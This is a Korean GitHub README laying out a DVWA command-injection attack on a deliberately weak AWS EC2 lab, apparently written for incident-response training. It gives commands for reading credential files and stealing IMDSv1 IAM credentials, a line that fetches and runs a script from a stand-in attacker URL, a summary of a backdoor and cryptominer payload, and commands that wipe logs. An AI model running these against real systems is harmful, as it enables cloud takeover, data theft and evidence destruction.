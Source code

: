 #  공격 시나리오: DVWA - Command Injection

## 개요

이 문서는 DVWA(Damn Vulnerable Web Application) 서버에서 **명령어 삽입 취약점(Command Injection)** 을 악용한 공격 시나리오를 설명합니다.  
공격 대상은 **ALB(Application Load Balancer) 뒤에 위치한 EC2 인스턴스**로, 최대한 많은 아티팩트를 수집하기 위한 실험 목적으로 다음과 같은 조건을 갖습니다:

- **웹 서버가 root 권한으로 실행 중**
- **EC2 인스턴스에 과도한 IAM 권한이 부여됨**
- **IMDSv1 (Instance Metadata Service v1)**


> 이 환경은 EC2 인스턴스에 최대 권한이 부여된 상태에서 원격 코드 실행(RCE) 및 권한 상승(LPE)공격에 의해 탈취된 상황을 가정한 실습 및 대응 훈련을 위한 구조입니다.


---

##  공격 시나리오

<img width="960" alt="스크린샷 2025-05-21 21 22 34" src="https://github.com/user-attachments/assets/c4799623-6251-4a4c-ba6e-e683bb19904d" />

### Step 1: 취약점 발견

1. 공격자는 웹 애플리케이션의 입력 필터링이 제대로 이루어지지 않는 것을 발견하고, 명령어 삽입 취약점이 존재함을 확인합니다.
2. 취약한 파라미터를 통해 쉘 명령어를 삽입하고, 이를 통해 웹 서버의 **root 권한**을 획득합니다.

---

### Step 2: 정보 수집

공격자는 루트 쉘 권한을 확보한 이후, 다음과 같은 명령어를 통해 시스템 내부 정보를 수집하고 AWS 환경에 대한 접근을 시도합니다.

---

#### 시스템 정보 수집

```bash
uname -a               # 커널 정보
ifconfig -a            # 네트워크 인터페이스 정보
id                     # 현재 사용자 정보
cat /etc/passwd        # 계정 목록
netstat -rn            # 라우팅 테이블

find / -name .ssh       # SSH 키 파일 위치 탐색
# → GuardDuty 탐지됨: Execution:Runtime/SuspiciousCommand

cat /home/ec2-user/.ssh/authorized_keys  # SSH 공개키 확인
cat /etc/shadow          # 패스워드 해시 열람 시도
cat /etc/hosts           # 로컬 호스트 정보

# 기본 메타데이터 접근 (IMDSv1 만 해당)
curl http://169.254.169.254/
curl http://169.254.169.254/latest/
curl http://169.254.169.254/latest/meta-data

# IAM 정보 및 보안 자격 증명 확인 (IMDSv1 만 해당)
curl http://169.254.169.254/latest/meta-data/iam/info
curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

###  Step 3: 악성 페이로드 배포

공격자는 루트 권한을 이용해 시스템에 악성 스크립트를 배포하고, AWS 리소스를 장악하기 위한 후속 작업을 수행합니다. 이 단계에서 공격자는 **클라우드 자원 침투**, **외부 C2 서버와의 통신**, **비트코인 채굴** 등의 악성 행위를 실행합니다.

---
악성 스크립트 다운 및 실행
```bash
wget {atcker_url}/setup.sh
chmod +x setup.sh
./setup.sh
```
___

### 🛠️ setup.sh 요약

- **웹 사용자 정보 탈취**  
  `collect_info.py` 실행을 통해 웹 로그를 분석하고 로그인 시도, 세션 쿠키 등을 수집

- **네트워크 패킷 감청**  
  `pcap.py`를 통해 서버 내에서 발생하는 패킷을 실시간으로 스니핑하여 계정 정보 등 민감 데이터 탈취

- **지속적인 백도어 유지**  
  `C2.py`를 백그라운드에서 실행해 명령 수신 및 원격 제어 가능 상태 유지

- **IAM 사용자 생성 및 AWS 루트 권한 확보**  
  `AdministratorAccess` 권한을 가진 IAM 사용자를 생성하여 AWS 콘솔 및 CLI에 영구 접근 가능

- **비트코인 채굴**  
  `cpuminer`를 설치 및 실행하여 EC2 인스턴스의 CPU 자원을 활용한 암호화폐 채굴 수행

---

### 🧹 Step 4: 증거 로그 삭제 및 은폐

공격자는 침해 행위 이후 자신이 남긴 흔적을 지우기 위해 다음과 같은 **로그 삭제 및 은폐 작업**을 수행합니다. 이는 향후 포렌식 분석을 어렵게 만들며, 침해 사실을 장기간 감출 수 있도록 돕습니다.

---

```bash
history -c && history -w
rm -f ~/.bash_history
unset HISTFILE
rm -f /var/log/messages
rm -f /var/log/secure
rm -f /var/log/auth.log
rm -f /var/log/wtmp
rm -f /var/log/btmp
rm -f /var/log/lastlog
rm -f /var/log/httpd/access_log
rm -f /var/log/httpd/error_log
rm -f setup.sh
rm -rf /tmp/*
```
